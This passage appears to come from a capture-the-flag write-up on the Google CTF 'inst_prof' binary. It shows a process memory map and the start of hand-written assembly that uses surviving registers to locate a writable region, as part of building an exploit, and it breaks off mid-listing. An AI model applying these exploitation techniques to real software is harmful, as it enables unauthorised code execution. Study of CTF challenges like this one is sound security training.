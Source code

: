 #### SEGFAULT

Turns out make_page executable sets the page to be readable and executable,
but no longer writeable. The process segfaults trying to read in the first
byte.

### Second thoughts

Crap! Ok, looks like we'll have to write a buffer somewhere fixed then jump
to it later.
<pre>
$ cat /proc/$(pidof inst_prof)/maps
564d85d04000-564d85d05000 r-xp 00000000 08:04 280187                     /home/user/google-ctf/inst_prof
564d85f05000-564d85f06000 r--p 00001000 08:04 280187                     /home/user/google-ctf/inst_prof
564d85f06000-564d85f07000 rw-p 00002000 08:04 280187                     /home/user/google-ctf/inst_prof
7f80d4882000-7f80d4a41000 r-xp 00000000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4a41000-7f80d4c41000 ---p 001bf000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4c41000-7f80d4c45000 r--p 001bf000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4c45000-7f80d4c47000 rw-p 001c3000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4c47000-7f80d4c4b000 rw-p 00000000 00:00 0 
7f80d4c4b000-7f80d4c71000 r-xp 00000000 08:02 1088605                    /lib/x86_64-linux-gnu/ld-2.23.so
7f80d4e46000-7f80d4e49000 rw-p 00000000 00:00 0 
7f80d4e6d000-7f80d4e6e000 r-xp 00000000 00:00 0 
7f80d4e6e000-7f80d4e70000 rw-p 00000000 00:00 0 
7f80d4e70000-7f80d4e71000 r--p 00025000 08:02 1088605                    /lib/x86_64-linux-gnu/ld-2.23.so
7f80d4e71000-7f80d4e72000 rw-p 00026000 08:02 1088605                    /lib/x86_64-linux-gnu/ld-2.23.so
7f80d4e72000-7f80d4e73000 rw-p 00000000 00:00 0 
7ffe331f4000-7ffe33215000 rw-p 00000000 00:00 0                          [stack]
7ffe33247000-7ffe33249000 r--p 00000000 00:00 0                          [vvar]
7ffe33249000-7ffe3324b000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
</pre>

There is a rw mapping from the binary available to us. Hope it's at a fixed
offset from the main binary! We can save off the return address from [rsp].
After rigorous testing we determine that the only registers that
remain unaffected between calls is r13, r14, and r15.
<pre>
mov  r14, [rsp]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]